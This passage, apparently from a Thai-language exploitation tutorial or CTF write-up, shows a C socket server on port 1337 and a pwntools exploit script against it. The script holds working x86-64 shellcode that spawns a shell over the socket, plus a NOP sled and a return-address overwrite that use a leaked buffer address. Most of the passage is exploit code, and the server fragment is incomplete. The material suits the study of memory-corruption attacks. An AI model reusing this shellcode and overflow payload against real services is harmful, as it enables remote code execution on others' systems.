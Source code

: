 ```c
{
     int sockfd, portno;
     socklen_t clilen;
     char buffer[4096], reply[5100];
	struct sockaddr sock;
     struct sockaddr_in serv_addr, cli_addr;
     int n;
     sockfd = socket(AF_INET, SOCK_STREAM, 0);
     if (sockfd < 0) 
        error("ERROR opening socket");
     bzero((char *) &serv_addr, sizeof(serv_addr));
     portno = 1337;
     serv_addr.sin_family = AF_INET;
     serv_addr.sin_addr.s_addr = INADDR_ANY;
     serv_addr.sin_port = htons(portno);
     if (bind(sockfd, (struct sockaddr *) &serv_addr,
              sizeof(serv_addr)) < 0) 
              error("ERROR on binding");
	printf("\n\n Server socket number is %d\n\n",sockfd);
     listen(sockfd,5);

     clilen = sizeof(cli_addr);
     newsockfd = accept(sockfd, 
                 (struct sockaddr *) &cli_addr, 
                 &clilen);
	printf("\n\n Client socket number is %d\n\n",newsockfd);
     if (newsockfd < 0) 
          error("ERROR on accept");
     while (1) {
        greet(newsockfd);
        }
     close(newsockfd);
     close(sockfd);
     return 0; 
}
```

จากนั้นเราลองเขียน [exploit.py](https://gist.github.com/jusmistic/08c1ae03cb1cef85ecfecbec9e4855ce#file-03_exploit-py) จะได้แบบนี้ค้าบบ

```python
from pwn import *

def exp():
    p = remote("localhost", 1337)

    p.recvuntil(": ")
    client_addr = int(p.recvline()[:-1], 16)
    print(f"Buffer Address: {hex(client_addr)}")
    # p.recvuntil(": ")

    sc = b"\x48\x31\xd2\x48\x89\xd7\x52\x52\x48\x89\xe6\xb2\x10\x52\x48\x89\xe2\x48\xff\xc7\x48\x31\xc0\xb0\x34\x0f\x05\x48\x85\xc0\x75\xf1\x48\x31\xf6\x48\x89\xf0\xb0\x21\x0f\x05\x48\xff\xc6\x40\x80\xfe\x03\x75\xf0\x48\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    buf =b""
    buf += b"\x90"*200
    buf += sc
    buf += b"\x90"*(0xa00-len(buf))
    buf += b"B"*8
    buf += p64(client_addr+150)
    buf += b"D"*20

    p.sendline(buf)
```